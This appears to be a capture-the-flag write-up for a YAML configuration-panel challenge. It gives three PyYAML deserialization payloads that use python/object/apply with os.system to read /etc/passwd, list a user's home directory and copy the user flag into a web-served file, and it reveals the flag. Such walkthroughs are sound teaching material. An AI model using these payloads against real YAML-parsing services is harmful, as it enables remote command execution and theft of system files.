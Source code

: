 *A junior developer set up an internal configuration panel using YAML. Unfortunately, they didn’t realize how dangerous it can be.*

*Can you misconfigure your way into the system and retrieve the user flag?*

*🧩 Your goal: Obtain the contents of `user.txt` located in the home directory of a low-privileged user.*

*🌐 Deployed at: [https://cybersecure-x-misconfigvault.chals.io](https://cybersecure-x-misconfigvault.chals.io)*


Leak /etc/passwd

Paste this into the GUI form:

`!!python/object/apply:os.system ["cp /etc/passwd /app/templates/passwd.txt"]`

Then visit:

https://cybersecure-x-misconfigvault.chals.io/view?file=passwd.txt

✔️ You discover:

ctfuser:x:1000:1000::/home/ctfuser:/bin/bash

List files in /home/ctfuser

`!!python/object/apply:os.system ["ls -la /home/ctfuser > /app/templates/ls_ctf.txt"]`

View:

/view?file=ls_ctf.txt

result
-r-------- 1 ctfuser ctfuser 33 Jun 6 12:00 user.txt

🔹 Step 3: Dump the user.txt flag

`!!python/object/apply:os.system ["cat /home/ctfuser/user.txt > /app/templates/userflag.txt"]`

View:

/view?file=userflag.txt

Flag:

`flag{user_access_granted}`


